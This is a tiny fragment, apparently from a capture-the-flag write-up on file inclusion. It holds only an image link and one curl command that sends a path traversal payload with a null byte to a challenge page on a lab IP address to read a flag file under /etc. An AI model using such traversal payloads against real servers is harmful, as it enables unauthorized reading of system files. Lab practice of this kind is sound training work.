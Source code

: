 curl http://10.10.87.97/challenges/chall3.php -X POST -d 'method=POST&file=../../../../etc/flag3%00' --trace-ascii - 

